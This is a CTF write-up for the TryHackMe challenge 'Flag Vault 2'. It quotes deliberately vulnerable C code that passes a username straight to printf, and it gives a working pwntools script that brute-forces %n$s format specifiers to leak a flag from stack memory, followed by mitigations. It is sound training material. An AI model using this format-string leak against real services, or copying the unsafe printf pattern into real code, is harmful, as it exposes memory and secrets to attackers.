 # TryHackMe - Flag Vault 2 (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025.07.10
>
> Category: Binary Exploitation>
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault2)

---

## Challenge Description

> How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore.
> This time, for real. Here's the source code once again.

Looks like ByteReaper wasn't too happy with us getting the flag last time. In this follow-up to the "Flag Vault" challenge, the developer claims to have fixed the vulnerability and made the flag inaccessible. Naturally, our job is to prove him wrong, again.

## Goal

Find and exploit a vulnerability in the updated code to retrieve the flag.

## TL;DR

- Reviewed the updated C source code.
- Noticed that the flag isn't printed anymore, but it's still read from `flag.txt`.
- Found a format string vulnerability in `printf(username)` inside `print_flag()`.
- Used the `%s` format specifier with positional arguments to leak memory contents.
- Brute-forced stack positions until the flag appeared in the output.

## Source Code Analysis

Here's the updated part of the code that caught my attention:

```c
void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

### Observations:

- The flag is still being read into memory from `flag.txt`, but the line that prints it is commented out.
- The `username` input is passed directly into `printf()` without a format string - a format string vulnerability.
- Since `flag` is sitting on the stack and we control `username`, we can try to leak memory using format specifiers.

## Exploitation Strategy

Plan:
1. Abuse the vulnerable `printf(username)` to leak stack data.
2. Use `%<n>$s` to print a string from a specific stack position.
3. Brute-force different values of `<n>` until the flag appears.

## Exploit Code

Here's the Python exploit using `pwntools`:

```python
from pwn import *

context.log_level = 'warning'

for position in range(1, 101):
    conn = remote('10.10.239.226', 1337)
    payload = f'%{position}$s'

    conn.recvuntil(b'Username:')
    conn.sendline(payload.encode())

    response = conn.recvall().decode()

    if 'THM{' in response:
        print(response)
        break
```

This script:
- Connects to the challenge server.
- Sends a payload like `%1$s`, `%2$s`, etc.
- Checks each response for the presence of the flag.
- Stops when the flag is found and printed back to us.

## Exploitation Output

Here's what I got upon executing the script:

![result.png](images/result.png)

The screenshot shows the flag successfully leaked through the format string vulnerability.

## What Happened?

This version tried to hide the flag by commenting out the `printf(flag)` line. But the dev didn't consider the consequences of using a user-controlled string in a raw `printf()` call. Without a format string, `printf(username)` treats input as a format string, meaning `%s`, `%x`, and other format directives are interpreted by the program.

The `flag` variable, despite not being printed directly, still lives on the stack after being loaded. With enough brute-forcing, we landed on the correct stack position and used `%s` to leak the string.

## Conclusion

This was an example of a format string bug. Even though the flag wasn't directly printed anymore, the vulnerability allowed us to leak it from memory anyway.

### Skills Practiced

- Format string exploitation.
- Brute-forcing positional arguments.
- Using `pwntools` to automate and streamline exploitation.

### Mitigations

- Never use user input directly in `printf()`. Always use a format string like `printf("%s", username);`.
- Be cautious even when hiding or commenting out code - data still in memory can still be leaked.

## Final Thoughts

This challenge was a great follow-up to the original. It reinforced the importance of secure coding practices - especially in C. It's always satisfying to bypass a developer's "fix" and find another hole they didn't think of.

**Note:** The flag was redacted to comply with TryHackMe's write-up policy.